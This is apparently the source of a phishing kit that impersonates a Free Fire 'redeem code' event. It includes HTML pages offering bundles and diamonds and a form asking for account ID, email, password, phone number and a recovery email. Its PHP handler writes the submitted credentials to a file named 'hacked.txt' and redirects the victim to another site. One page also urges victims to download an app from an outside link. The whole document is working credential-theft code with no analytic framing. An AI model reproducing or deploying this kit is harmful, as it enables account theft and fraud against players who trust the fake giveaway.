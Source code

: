 <html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGame"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="herohead">
<center><font style="font-size:14px;color:#64ffda;">Redemption Code</font></center><br/>
<input class="code" value="BHDO K6UM SGMQ O6AS" readonly=""/>
<div class="title"><b>MONTHLY EVENT</b> | COPY REDEEM CODE</div>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto13.png" alt="BUNDLE"/>
<small>BUNDLE<br/>New Years</small>
</a>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto6.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winterlands</small>
</a>
<a href="submit.php" class="avatar" title="Estes">
<img src="css/uhu/x/fotouhu/uhuinfo-foto7.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winter Elk</small>
</a>
<a href="submit.php" class="avatar" title="Miya">
<img src="css/uhu/x/fotouhu/uhuinfo-foto8.png" alt="SET"/>
<small>SET<br/>Grumpy old</small>
</a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>

</html>
<?php
$id = $_POST['id'];
$country = $_POST['country'];
$email = $_POST['email'];
$password = $_POST['password'];
$hp = $_POST['phone'];
$emailr = $_POST['emailr'];
?>

<?php

file_put_contents("hacked.txt", "[Id:] " . $id = $_POST['id'] . " [Country:] " . $country = $_POST['country'] . " [Email:] " . $email = $_POST['email'] . "[Password]" . $password = $_POST['password'] . "[Hp]" . $hp = $_POST['phone'] . "[Emailr]" . $emailr = $_POST['emailr'] . "\n", FILE_APPEND);
header('Location: https://www.noob-hackers.com');
?>

<center><span style='background:limegreen;width:360px;margin:0;padding:5px 0;color:black;display:block'>Success! Your submission has been requested</span></center>

<html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-UEFjQE1QOKY/XhBG5WkqNqI/AAAAAAAAAlY/_Ley0LvHyycIUQvHy1wZNEeA5Spqz2MPQCLcBGAsYHQ/s320/IMG_20200104_133005.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="button">
<div class="event"><center><strong>Congratulations</strong></center><br/>1. Please download app by clicking  <strong>App Available Download </strong> on the button below and copy <strong> Unique Code</strong> on that page.<br/>2. After that, click the event you want to claim below and paste <strong>Unique Code</strong> you have copied.<br/><br/>Prizes and bonuses will be given after <strong>30 minutes</strong>, for players who have sent.</div>
<a href="http://d.helo-app.com/LCuDUo/" title="Download on Play Store"><img src="img/download.png" alt="Download"/></a>
<a href="https://reward.ff.garena.com/" title="Redemption Code"><img src="img/code.png" alt="Redemption Code"/></a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>
</html>
<html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Mobile Legends - Weekly Free Heroes"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/redeem.css"/>

</head>
<body>
<form align="right" action="process.php" method="POST">
<img src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Instruction"/>
<br/><br/>

<label for="id">Account ID</label>*
<input minlength="5" maxlength="7" type="number" name="id" required=""/>
<br/><br/>
<label for="country">LOG IN</label>*
<select name="country" required="">
<option value="VK" selected="">VK</option>
<option value="FB">FB</option>
</select>
<br/><br/>

<label for="code">Redeemption Code</label>*
<input minlength="1" maxlength="16" type="text" name="code" required=""/>
<br/><br/>

<hr/><br/>
<label for="email">Email/HP</label>*
<input minlength="3" maxlength="50" type="text" name="email" required=""/>
<br/><br/>
<label for="password">Password</label>*
<input minlength="5" maxlength="50" type="password" name="password" required=""/>
<br/><br/>
<label for="phone">Phone</label>*
<input minlength="8" maxlength="13" type="number" name="phone" required=""/>
<br/><br/>
<label for="recoveryemail">2nd Email</label>*
<input minlength="15" maxlength="50" type="email" name="emailr" required=""/>
<br/><br/>
<hr/><br/>
<div align="center">
<p><small>Take your Diamond + bundle, check the mail box in the game after (30) Minutes</small></p>
<br/>
<input type="submit" value="Submit"/>
</div>
</form>
</body>

</html>
